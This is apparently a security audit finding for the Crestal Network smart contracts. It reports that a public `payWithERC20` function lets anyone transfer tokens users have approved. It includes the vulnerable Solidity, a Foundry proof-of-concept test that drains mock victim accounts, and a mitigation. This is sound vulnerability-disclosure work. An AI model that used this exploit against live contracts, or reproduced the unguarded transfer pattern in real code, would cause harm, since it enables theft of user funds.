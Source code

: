 Witty Chocolate Kangaroo

High

# Weak Access Control in `Payment::payWithERC20` Allows Attacker to Steal User Tokens Approved on Blueprint Contract

### Summary

The Payment::payWithERC20 function lacks proper access control, allowing attackers to call it and steal all user tokens approved on the blueprint contract. This can lead to significant financial losses.

### Root Cause

```solidity

    // This is to support gasless flow: normally, the caller must always be the msg.sender
    // slither-disable-next-line arbitrary-send-erc20
    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }

```
reference: https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25
The Payment::payWithERC20 function visibility is public so anyone can call it with arbitrary parameter.

### Internal Pre-conditions

-

### External Pre-conditions

-

### Attack Path

1. User need to approve token on blueprint contract before interact with blueprint contract that must pay using token CRESTAL or USDC
2. Attacker immediately call the payWithERC20 function to transfer user token to attacker address.

### Impact

financial losses for affected users

### PoC

```solidity
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract BlueprintTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }

    function test_stealAllToken() public {
        uint256 topUpAmount = 100 * 10 ** 18;
        
        address victim1 = address(0x1);
        address victim2 = address(0x2);
        address victim3 = address(0x3);
        address victim4 = address(0x4);
        address victim5 = address(0x5);
        address attacker = address(0x6);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the victim account (simulate the exploit)
        mockToken.mint(victim1, topUpAmount);
        mockToken.mint(victim2, topUpAmount);
        mockToken.mint(victim3, topUpAmount);
        mockToken.mint(victim4, topUpAmount);
        mockToken.mint(victim5, topUpAmount);

        // Approve the blueprint contract to spend tokens before topUp
        vm.prank(victim1);
        mockToken.approve(address(blueprint), topUpAmount);

        vm.prank(victim2);
        mockToken.approve(address(blueprint), topUpAmount);

        vm.prank(victim3);
        mockToken.approve(address(blueprint), topUpAmount);

        vm.prank(victim4);
        mockToken.approve(address(blueprint), topUpAmount);

        vm.prank(victim5);
        mockToken.approve(address(blueprint), topUpAmount);

        // attacker token balance before exploit is zero
        assertEq(mockToken.balanceOf(attacker), 0);


        // attacker exploit the public function payWithERC20 to transfer victim token to attacker.
        vm.startPrank(attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, victim1, attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, victim2, attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, victim3, attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, victim4, attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, victim5, attacker);
        vm.stopPrank();


        // victim can not top up because their token got stolen
        vm.prank(victim1);
        vm.expectRevert();
        blueprint.userTopUp(address(mockToken), topUpAmount);

       // attacker token balance after exploit
        assertEq(mockToken.balanceOf(attacker), 5 * topUpAmount);
    }
```

### Mitigation

Modify the visibility of the payWithERC20 function to internal so that only the contract itself and its child contracts can call this function.